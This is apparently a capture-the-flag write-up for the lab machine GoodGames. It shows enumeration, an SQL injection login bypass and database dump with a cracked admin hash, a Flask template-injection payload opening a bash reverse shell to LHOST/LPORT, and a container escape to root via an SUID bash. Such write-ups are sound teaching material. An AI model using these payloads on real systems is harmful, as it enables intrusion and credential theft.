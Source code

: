 # GoodGames

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Mon Feb 28 13:33:25 2022 as: nmap -vvv -p 80 -sCV -oA init 10.10.11.130
Nmap scan report for 10.10.11.130
Host is up, received conn-refused (0.15s latency).
Scanned at 2022-02-28 13:33:39 +07 for 12s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 28 13:33:51 2022 -- 1 IP address (1 host up) scanned in 25.98 seconds
```

All we have is a website. At the bottom of the landing page is `GoodGames.HTB` so I added `goodgames.htb` to my `/etc/hosts` though using the domain name doesn't seem to be different from using the IP address. I still tried fuzzing for virtual hosts.

```sh
$ ffuf -u 'http://goodgames.htb/' -H "Host: FUZZ.goodgames.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 85107

ptuebiz-040             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
nbl                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 243ms]
smartconnect            [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 270ms]
clamp                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 873ms]
```

I added the subdomains to `/etc/hosts` and visited them but all gave the same `goodgames.htb` site.

Looking around the site, we have `/coming-soon` with a non-functional "subscribe" form and a single blog post at `/blog/1`. On that blog post is the username `admin` which we can try later. With nothing else to go off of, I fuzzed directories.

```sh
$ ffuf -u 'http://goodgames.htb/FUZZ' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 9265

login                   [Status: 200, Size: 9294, Words: 2101, Lines: 267, Duration: 537ms]
blog                    [Status: 200, Size: 44212, Words: 15590, Lines: 909, Duration: 561ms]
profile                 [Status: 200, Size: 9267, Words: 2093, Lines: 267, Duration: 475ms]
signup                  [Status: 200, Size: 33387, Words: 11042, Lines: 728, Duration: 470ms]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 520ms]
forgot-password         [Status: 200, Size: 32744, Words: 10608, Lines: 730, Duration: 194ms]
coming-soon             [Status: 200, Size: 10524, Words: 2489, Lines: 287, Duration: 290ms]
                        [Status: 200, Size: 85107, Words: 29274, Lines: 1735, Duration: 216ms]
Pontiac                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 1381ms]
us-travel               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 188ms]
reveal                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 194ms]
User_Information        [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 231ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 347ms]
33129                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 284ms]
metalwarrior            [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 188ms]
biolist                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 175ms]
mkz                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 232ms]
Cormier22               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 227ms]
arrow_strong            [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 247ms]
41078                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 266ms]
85261                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 216ms]
header_bullet           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 232ms]
freelist                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 198ms]
treeline                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
0750                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 158ms]
```

Going to `/signup`, we can register an account and login so I did just that. After logging in, we're redirected to `/profile`.

I then logged out and tried SQL injection on the login and found that the payload `' or 1=1 -- -` worked on the email field and I got logged in as admin. I also tried changing admin's password but that doesn't work and just returns an HTTP 500 error. Looking at `/profile`, we get the email `admin@goodgames.htb`.

Since we know the login as SQLi, I went and enumerate and dump the DB with `sqlmap` using the login request intercepted in Burp.

```sh
$ sqlmap -r `pwd`/login.req --batch --technique=BEUSQ --threads 10 -D main -T user --dump

Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```

Admin's MD5 hash can easily be cracked using [crackstation](https://crackstation.net/) to get `superadministrator`.

Looking at the source code of `/profile` while logged in as admin, we have `http://internal-administration.goodgames.htb` so we add the new domain name to `/etc/hosts` and enumerate that.

Using admin's credentials, we can log into the new application. A quick look tells us it's a Flask Volt application. Looking around, `/settings` seems interesting. Since we're working with a Flask application, I went and test for SSTI (Server-side Template Injection). Among the fields, "Full Name" is vulnerable as `{{5*5}}` returns `25`. Using the payload `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("bash -c 'exec bash -i &>/dev/tcp/LHOST/LPORT <&1'").read() }}`, I got a shell on the machine as `root`.

A quick check of `/` shows we're in a Docker container.

```sh
root@3a453ab39d3d:/backend# ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Nov  5 15:23 .
drwxr-xr-x   1 root root 4096 Nov  5 15:23 ..
-rwxr-xr-x   1 root root    0 Nov  5 15:23 .dockerenv
<snip>
```

We have `augustus` in `/home` but not in `/etc/passwd` and we can't `su augustus` either, which is strange. Checking `mount` ...

```sh
root@3a453ab39d3d:/home/augustus# mount | grep augustus
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

... we see that it's actually mounted from another machine. Checking our IP address ...

```sh
root@3a453ab39d3d:/home/augustus# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

... we see that this container is `172.19.0.2`. Assuming there's a `172.19.0.1`, I `ping`'d it which works. I then ran a port scan on that machine.

```sh
root@3a453ab39d3d:/home/augustus# for PORT in {1..9000} ; do (echo  > /dev/tcp/172.19.0.1/$PORT) >& /dev/null && echo "Port $PORT seems to be open"; done
Port 22 seems to be open
Port 80 seems to be open
```

Port 22 is open so I tried to SSH in with `ssh augustus@172.19.0.1` which worked. To escalate to root, I did the following:

1. Copy `/bin/bash` to `/home/augustus` on `172.19.0.1`
2. Go back to `172.19.0.2`, ran `chown root:root bash` and `chmod u+s bash`
3. SSH back into `172.19.0.1` and use that `bash` with `./bash -p`

With that, we should have a root shell on the final host machine.
